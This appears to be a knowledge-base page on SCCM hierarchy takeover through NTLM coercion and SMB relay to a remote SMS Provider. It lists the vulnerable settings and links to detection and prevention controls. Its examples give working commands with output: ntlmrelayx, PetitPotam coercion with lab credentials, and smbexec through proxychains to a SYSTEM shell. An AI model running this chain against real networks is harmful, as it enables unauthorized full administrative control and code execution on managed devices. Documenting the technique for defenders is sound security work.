 # TAKEOVER-6

## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote SMS Provider


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-6.1: Coerce primary site server
    - TAKEOVER-6.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target

### Relay
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. An attacker who is able to successfully coerce NTLM authentication from a site server can escalate to "Full Administrator" by elevating to "NT\AUTHORITY SYSTEM" on the SMS Provider.

## Impact
This technique may allow an attacker to relay a site server domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples
1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```
2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service remote SMS Provider identified in the previous step:
    ```
    └─# ntlmrelayx.py -t smb://10.10.100.12 -socks -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening on 127.0.0.1:1080
    [*] HTTPS Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAPS Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the SMS provider and the authenticated session is held open

    ```
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.9, attacking target smb://10.10.100.12
    [*] Authenticating against smb://10.10.100.12 as LAB/SCCM$ SUCCEED
    [*] SOCKS: Adding LAB/SCCM$@10.10.100.12(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] SOCKS: Proxying client session for LAB/SCCM$@10.10.100.12(445)
    socks
    Protocol  Target        Username   AdminStatus  Port
    --------  ------------  ---------  -----------  ----
    SMB       10.10.100.12  LAB/SCCM$  TRUE         445
    ntlmrelayx>
    ```

 4. Proxy `smbexec.py` in the context of the site server through the authenticated session to establish interactive access on the target host as NT\AUTHORITY SYSTEM:
    ```
    └─# proxychains smbexec.py LAB/SCCM\$@10.10.100.12 -codec 437 -no-pass
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.12:445  ...  OK
    [!] Launching semi-interactive shell - Careful what you execute
    C:\Windows\system32>wmic /namespace:\\root\sms\site_lab path SMS_Admin get AdminID,LogonName
     ■AdminID   LogonName
    16777217  LAB\Administrator
    16777220  LAB\lowpriv

    C:\Windows\system32>
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
